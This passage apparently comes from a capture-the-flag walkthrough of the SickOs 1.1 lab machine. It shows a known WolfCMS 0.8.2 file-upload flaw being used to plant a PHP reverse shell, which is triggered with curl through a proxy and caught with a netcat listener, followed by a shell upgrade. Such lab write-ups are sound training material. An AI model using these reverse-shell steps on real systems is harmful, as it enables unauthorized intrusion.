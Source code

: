 
At the footer, the website tells us that the version of WolfCMS is `0.8.2`. More quick Googling tells us that this version is vulnerable to an arbitrary file upload vulnerability! Let us upload a PHP reverse shell:

![](sickos_1.1_4.png)

![](sickos_1.1_5.png)

Now we just have to access it in /public as all uploaded files are sent there:

```
root@kali:~# curl http://192.168.100.14/wolfcms/public/php-reverse-shell.php -x http://192.168.100.14:3128

// In another terminal

root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.100.12] from (UNKNOWN) [192.168.100.14] 58301
Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP xxx xxx xx xx:xx:xx UTC xxxx i686 i686 i386 GNU/Linux
 xx:xx:xx up 43 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@SickOs:/$
```
